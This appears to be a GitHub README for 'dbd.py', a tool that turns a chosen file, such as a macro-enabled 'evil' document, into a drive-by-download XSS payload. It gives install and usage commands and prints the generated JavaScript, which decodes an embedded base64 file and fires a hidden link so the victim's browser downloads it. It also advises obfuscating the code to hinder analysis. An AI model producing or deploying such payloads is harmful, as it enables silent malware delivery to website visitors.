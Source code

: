 # dbd.py (drive-by-download)

Generate a post exploit script to download an arbitrary file using HTML5's Blob object (https://developer.mozilla.org/en-US/docs/Web/API/Blob). Say goodbye to ```alert(1)```.

# install

```shell
$ git clone https://github.com/demetriusford/drive-by-download
$ cd drive-by-download && pip3 install -r requirements/all.txt
```

# usage

```bash
Usage: dbd.py [OPTIONS]

  Generate a drive-by-download XSS payload.

Options:
  --version
  --extension [.doc|.pdf|.exe]
  --evil-file FILE
  --help                          Show this message and exit.
```

Create a macro-enabled document, then run:

```bash
$ python3 dbd.py --extension=".doc" \
                 --evil-file="/path/to/evil.doc"
```

You'll see the generated JavaScript printed to `stdout` with the embedded file contents. Now, you can spend time obfuscating identifier names, string extractions, and code operations to complicate analysis:

```javascript
...

class MimeFactory {
  constructor(type) {
    if (!(type in MIMES)) {
      return;
    }
    this.type = MIMES[type];
  }
}

((file, payload) => {
  const empty = ({
    length
  }) => length === 0;

  if (empty(file) || empty(payload)) {
    return;
  }

  const decoded = window.atob(payload);

  const mime = new MimeFactory(file);
  const size = payload.length;
  const link = document.createElement('a');

  const bin = new Uint8Array(size);
  for (let i = 0; i < size; i++) {
    bin[i] = decoded.charCodeAt(i);
  }

  const blob = new Blob([bin.buffer], {
    type: mime.type
  });

  const url = window.URL.createObjectURL(blob);

  link.style = 'display:none;';
  link.href = url;
  link.download = file;

  document.body.appendChild(link);
  link.click();

  window.URL.revokeObjectURL(url);
  document.body.removeChild(link);

})('657hi94.doc', '...');
```
